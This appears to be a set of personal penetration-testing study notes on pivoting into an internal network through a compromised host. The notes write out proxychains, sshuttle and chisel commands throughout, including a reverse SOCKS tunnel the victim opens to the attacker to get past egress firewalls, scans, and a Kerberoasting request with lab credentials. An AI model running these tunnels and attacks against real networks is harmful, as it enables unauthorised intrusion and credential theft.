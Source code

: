 - Imagine if we gain access to a **machine with 2 network interfaces**.
- These interfaces, share **a network which was not available to us** previously.
- We need to ==**access the other previously unaccessible network**==. 

![[Pasted image 20250401145157.png]]

# Machine Details
---
- **Access to the `box1` machine** is present with following interfaces:
- ==**.10.5 network is not accessible** :==

 	![[Pasted image 20250401145541.png]]

# Using proxychains
---
- `cat /etc/proxychains4.conf`
	- We need to **bind to `9050`** port:
	 ![[Pasted image 20250401145849.png]]
- `ssh -f -N -D 9050 -i id_rsa root@10.10.155.5`
	- `-f`: background ssh
	- `-N`: we don't want to execute remote commands, just for port forwarding
	- `-D`: port to bind
	- ![[Pasted image 20250401150121.png]]
- **Running commands through proxychains:**
---
   - `proxychains nmap -p 2049 10.10.10.255` (skip -p for top 1000 ports)
   - `proxychains nmap 10.10.10.255 -sT` (if prev doesn't work)
   - `proxychains GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip 10.10.10.255 -request`
   - `proxychains xfreerdp3 /v:[10.0.1.9](10.10.10.255)  /u:fcastle /p:myPassword01`
   - `proxychains firefox` => **==Firefox through proxychains => Accessing we services of other interface network==**


# Using sshuttle
---
- `sudo pip install sshuttle`
- `sshuttle -r root@10.10.155.5 10.10.10.0/24 --ssh-cmd "ssh -i pivot"`
	- First address -> our accessible network address
	- Second address -> network to connect with on previous network
	- `ssh-cmd` -> command to run
- Now as long as this window is open, **==we can run commands directly==** like:
	- `nmap 10.10.10.255 -p88`
	- ![[Pasted image 20250401150901.png]]
- **Note: If we get error**
	**`Read from remote host 10.200.57.200: Connection reset by peer**
	**`client_loop: send disconnect: Broken pipe`**
	**`c : fatal: ssh connection to server (pid 22136) exited with returncode 255`**
	- This can occur when the compromised machine you're connecting to is part of the subnet you're attempting to gain access to
	- ==Use the `-x` option to `exclude` compromised server ip:==
		- `sshuttle -r root@10.200.57.200 10.200.57.0/24 --ssh-cmd "ssh -i ./prod_root_id_rsa.pem" -x 10.200.57.200`
# Chisel
---
# Reverse SOCKS Proxy (Attacker -> Server, Victim -> Client)
---
- Client connects with server
- **Client makes decisions and initiates connection**
- ==Good for **evading egress firewalls** and when **victim can reach the attacker**.==
- On Attacker machine:
	- `chisel server --socks5 --reverse -p <port_number>`
- On Victim machine:
	- `./chisel client --fingerprint <fingerprint_from_server_node> <ip_address>:<server_port> R:socks`
 - Foxyproxy setup: (**1080 is default proxy port for reverse connections**)
	![[Pasted image 20250404121940.png]]
# Forward SOCKS Proxy (Victim -> Server, Attacker -> Client)
---
- Good when **==victim cannot reach attacker but attacker can==**.
- On Attacker machine:
	- `chisel client <compromised_ip>:<port_on_compromised_ip> <local_port_for_proxy>:sock`
- On Victim machine:
	- `chisel server -p <port_to_open> --socks5`
- Foxyproxy setup: ![[Pasted image 20250404165708.png]]

# Reverse Single Mode 
- On Attacker machine:
	- `chisel server --socks5 --reverse -p <port_number>`
- On Victim machine:
	- `./chisel client --fingerprint <fingerprint_from_server_node> <ip_address>:<server_port> R:<port_to_send_on_server>:<ip_to_connect_with>:<port_to_forward_on_secondary_victim_machine>`
		- `-R` : reverse
	- ==Now we can access  `localhost:<port_to_send_on_server>` which would be `secondary ip of victim`'s forwarded port==
- For browser interaction: **proxy by patterns**
- For commands use : **proxychains command**
